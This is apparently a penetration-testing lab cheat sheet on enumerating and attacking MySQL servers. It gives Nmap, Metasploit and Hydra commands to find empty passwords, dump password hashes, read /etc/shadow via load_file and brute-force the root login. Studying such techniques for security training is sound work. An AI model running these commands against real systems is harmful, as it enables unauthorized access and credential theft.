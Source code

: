 # Enumeration: MySQL
> MySQL is usually found on some flavor of Linux. Database software very common in many web sites, especially in enterprise systems. It's also very often misconfigured and therefore vulnerable.

- Default MySQL Port: `3306`

## Contents
- [Nmap Scripts](#nmap-scripts)
  - [Default Scripts](#default-scripts)
  - [mysql-empty-password](#mysql-empty-password)
  - [mysql-info](#mysql-info)
  - [mysql-users](#mysql-users)
  - [mysql-databases](#mysql-databases)
  - [mysql-audit](#mysql-audit)
  - [mysql-dump-hashes](#mysql-dump-hashes)
  - [mysql-query](#mysql-query)
- [MetaSploit](#metasploit)
  - [mysql_writable_dirs](#mysql_writable_dirs)
  - [mysql_hashdump](#mysql_hashdump)
- [MySQL Commands](#mysql-commands)
  - [Initial Queries](#initial-queries)
  - [Filesystem Access](#filesystem-access)
- [Dictionary Attacks](#dictionary-attacks)
  - [MetaSploit](#metasploit-1)
  - [Hydra](#hydra)

## Nmap Scripts

### Default Scripts
> Start wide and general, then focus on things your find. Start with default scripts.
```
nmap -sV -sC -p 3306 [target ip]
```

### mysql-empty-password
> This will look for accounts that don't require a password Checks for MySQL servers with an empty password for root or anonymous.
```
nmap -sV -p 3306 --script mysql-empty-password [target ip]
```

### mysql-info
> More information on the db itself If you see "Interactive Client," that's interesting. 
```
nmap -sV -p 3306 --script mysql-info[target ip]
```

### mysql-users
> Should provide you with a list of users on the db system (add to enumeration notes)
```
nmap -sV -p 3306 --script mysql-users --script-args "mysqluser='root',mysqlpass=''" [target ip]
```

### mysql-databases
> Should provide you with a list of databases on the system (add to enumeration notes)
```
nmap -sV -p 3306 --script mysql-databases --script-args "mysqluser='root',mysqlpass=''" [target ip]
```
- You get a mess of information.  Look for (most useful):  `datadir: /var/lib/mysql`
- That tells you were the variables are stored (this has potential uses)

### mysql-audit
```
nmap -sV -p 3306 --script mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" [target ip]
```
- NOTE: "Do not grant GRANT privileges to non Admin users => PASS" (that's good security but bad for us)
- Three args are required: [documentation](https://nmap.org/nsedoc/scripts/mysql-audit.html)
  - mysql-audit.username='root'
  - mysql-audit.password='foobar'
  - mysql-audit.filename='nselib/data/mysql-cis.audit'  [usually in /usr/share/nmap/]

### mysql-dump-hashes
> Should get all the hashes (just like with the msf scan below)
```
nmap -sV -p 3306 --script mysql-dump-hashes --script-args "username='root',password=''" [target ip]
```

### mysql-query
> Run an SQL query via an nmap script
```
nmap -sV -p 3306 --script mysql-query --script-args "query='select count(*) from books.authors;',username='root',password=''" [target ip]
```
- NOTE: Syntax of SQL Count() function...
```
SELECT COUNT(expression)
FROM table
WHERE condition;
```
- *Expression* is the parameter where you specify which values you want to count. It can be a field or string type value.
- *Table* is the table you use as a source to fetch records. You need to hyave at least one table.
- *WHERE* is an optional condition for selecting records from the table. 

## MetaSploit
> If you are not very familiar with SQL, you can use the MSF as a crutch.

### mysql_writable_dirs
```
> use auxiliary/scanner/mysql/mysql_writable_dirs
> options
> set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
  # tab completion is your friend
> setg rhosts [target ip]
  # setg is global so you don't have to keep setting rhosts if you're going to be hammering on the same ip all the time. Sets it for the current session only, but for the whole session.
> set verbose false
  # This is found in the advanced options section ( > advanced )
> set password ""
  # Sets to null
> run
```
- Outputting these kinds of things to a file can be a lot easier to parse
- Find writable dirs, etc.  (tmp and root are the only writable dirs on this lesson)
- NOTE: you found writable dirs in the target FILESYSTEM (not in the database), and you found them by scanning the database.

### mysql_hashdump
```
> use auxiliary/scanner/mysql/mysql_hashdump
> options
  # if you use setg for rhosts, it should already be set
> set username root
> set password ""
> run
```
- You just might get a whole bundle of hashs you can add to our list of enumerated goodies

## MySQL Commands

### Initial Queries
```
mysql -h [target ip] -u root
```
- This is a mysql command, the `-h` is for the host, `-u` is username
- If that lets you login... it's horribly misconfigured and more than vulnerable.
- At the `MySQL [(none)]>` prompt:

```
show databases;
  # NOTE: requires semicolon at the end
  # This will list out all the databases out there on the server
  # Choose one and look at it... done with "use [database]"
use [database];
show tables;
describe [table name or databaseName.tableName];
use books;
  # This drops us into the books db
select count(*) from authors;
  # This gives us a count of authors in the db
  # If you want to see everything from db...
select * from authors
  # Lists out all the info in authors
help
  # This will give you a quick list of things you can do, syntax, etc.
```

### Filesystem Access
> Let's see if we have access to files on the target machine... 
```
mysql -h [target ip] -u root
```
- At the `MySQL [(none)]>` prompt:
```
> select load_file("/etc/shadow");
```
- You may get the full shadow file...
- The [/etc/shadow](https://www.cyberciti.biz/faq/understanding-etcshadow-file/) file is a text file that contains information about the system’s users’ passwords.
- The [/etc/passwd](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/) file contains a list of valid users on the target system

## Dictionary Attacks

### MetaSploit
> module to brute-force a login
```
> use auxiliary/scanner/mysql/mysql_login
> set rhosts [target ip]
> set pass_file /usr/share/metasploit_framework/data/wordlists/unix_passwords.txt
> set verbose false
> set stop_on_success true
> set username root
> options (check it to make sure)
> run (or exploit)
```

### [Hydra](../hydra.md)
> Should give you the same result as msf above.
```
hydra -l root -P /usr/share/metasploit_framework/data/wordlists/unix_passwords.txt [target ip] mysql
```

